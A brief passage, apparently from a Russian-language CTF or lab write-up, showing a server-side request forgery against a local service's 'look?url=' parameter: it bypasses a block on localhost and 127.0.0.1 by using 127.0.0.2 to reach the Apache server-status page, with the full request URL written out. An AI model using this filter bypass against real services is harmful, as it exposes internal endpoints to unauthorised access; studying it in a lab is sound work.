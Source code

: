 SSRF на server-status/

localhost и 127.0.0.1 забанены, обходим, например, с помощью 127.0.0.2

http://localhost:31337/look?url=http://127.0.0.2/server-status
